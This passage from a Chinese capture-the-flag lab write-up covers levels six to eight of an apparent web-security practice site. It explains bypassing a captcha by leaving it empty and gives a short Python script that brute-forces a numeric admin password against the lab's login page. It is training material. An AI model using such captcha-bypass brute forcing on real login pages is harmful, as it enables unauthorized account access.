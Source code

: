 <h6>[第六关]</h6>

依旧是验证码的问题。试试留空能不能绕过。

{% highlight python%}
#coding:utf-8

import requests

url = 'http://lab1.xseclab.com/vcode1_bcfef7eacf7badc64aaf18844cdb1c46/login.php'

username = 'admin'
submit = 'submit'

pwd = 1000
cookie = {'PHPSESSID':'9515090a314ddc0f6d7641af16f75fda'}
while True:
	post = {"username":username,'pwd':pwd,'vcode':'','submit':submit}

	res = requests.post(url,data=post,cookies=cookie)

	print res.content,'...',pwd
	pwd += 1
	if 'pwd' not in res.content:
		break

{% endhighlight %}

<img src="/images/writeup6_1.png" />

Get key!

<h6>[第七关]</h6>

同上，留空绕过验证码。

<img src="/images/writeup7_1.png" />

<h6>[第八关]</h6>

